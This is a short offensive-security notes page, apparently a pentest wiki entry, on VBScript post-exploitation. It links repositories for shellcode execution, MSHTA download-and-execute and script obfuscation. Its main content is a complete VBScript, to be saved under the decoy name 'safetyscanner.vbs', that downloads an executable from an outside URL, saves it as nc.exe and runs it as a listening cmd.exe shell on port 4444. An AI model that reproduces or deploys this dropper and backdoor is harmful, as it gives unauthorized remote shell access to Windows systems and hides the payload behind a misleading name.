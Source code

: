 # ⭕ VBS

when a VBScript is executed from the command line (cmd.exe), by default it uses wscript (GUI). cscript.exe can be launched explicitly, like this:

```
cscript console.vbs
```

## <mark style="color:red;">shellcode execution with VBScript</mark>

{% embed url="https://github.com/nixawk/pentest-wiki/blob/master/4.Post-Exploitation/Windows_ActiveDirectory/Execute_metasploit_vbs_payload_in_cmd_shell.md" %}

## <mark style="color:red;">VBScript Download & Execute</mark>

Downloads, decode, decrypt and executes a VBScript using cmd and mshta.

{% embed url="https://github.com/AdiMarianMutu/MSHTA-VBS-download-and-execute" %}

#### <mark style="color:green;">without obfuscation:</mark>

Put the following lines into a text file. Name it safetyscanner.vbs and put on desktop.

```
dim http_obj
dim stream_obj
dim shell_obj
 
set http_obj = CreateObject("Microsoft.XMLHTTP")
set stream_obj = CreateObject("ADODB.Stream")
set shell_obj = CreateObject("WScript.Shell")
 
URL = "http://www.mikemurr.com/example.exe" 'Where to download the file from
FILENAME = "nc.exe" 'Name to save the file (on the local system)
RUNCMD = "nc.exe -L -p 4444 -e cmd.exe" 'Command to run after downloading
 
http_obj.open "GET", URL, False
http_obj.send
 
stream_obj.type = 1
stream_obj.open
stream_obj.write http_obj.responseBody
stream_obj.savetofile FILENAME, 2
 
shell_obj.run RUNCMD
```

## <mark style="color:red;">Obfuscation</mark>

{% embed url="https://github.com/DoctorLai/VBScript_Obfuscator" %}

{% embed url="https://ther10tz.github.io/Simple-VBScript-Obfuscator" %}

{% embed url="https://github.com/kkar/VBS-Obfuscator-in-Python" %}

## <mark style="color:red;">De-obfuscation</mark>

{% embed url="https://github.com/sbruyere/vbeDecoder" %}
